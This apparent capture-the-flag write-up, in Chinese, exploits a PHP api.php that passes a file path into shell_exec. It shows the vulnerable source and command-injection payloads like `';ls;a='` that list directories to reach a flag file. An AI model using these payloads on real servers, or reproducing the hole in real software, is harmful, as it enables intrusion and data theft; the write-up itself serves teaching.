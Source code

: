 ![squirrel](/assets/squirrel.png)

直接看原始碼，他是透過`api.php`去讀主機上的`/etc/passwd`，看來可以讀所有檔案！？直接叫他讀`api.php`：

```
/api.php?get=api.php

{"output":"<?php\n\nheader('Content-Type: application\/json');\n\nif ($file = @$_GET['get']) {\n    $output = shell_exec(\"cat '$file'\");\n    \n    if ($output !== null) {\n        echo json_encode([\n            'output' => $output\n        ]);\n    } else {\n        echo json_encode([\n            'error' => 'cannot get file'\n        ]);\n    }\n} else {\n    echo json_encode([\n        'error' => 'empty file path'\n    ]);\n}\n"}
```

看來這個php直接把你給的路徑丟進`shell_exec("cat '$file'")`裡頭，這相當於給了我們shell：

```
/api.php?get=';ls;a='
{"output":"api.php\ncss\nindex.html\njs\n"}
/api.php?get=';cd ..;ls;a='
{"output":"html\n"}
/api.php?get=';cd ../..;ls;a='
{"output":"backups\ncache\nlib\nlocal\nlock\nlog\nmail\nopt\nrun\nspool\ntmp\nwww\n"}
/api.php?get=';cd ../../..;ls;a='
{"output":"5qu1rr3l_15_4_k1nd_0f_b16_r47.txt\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

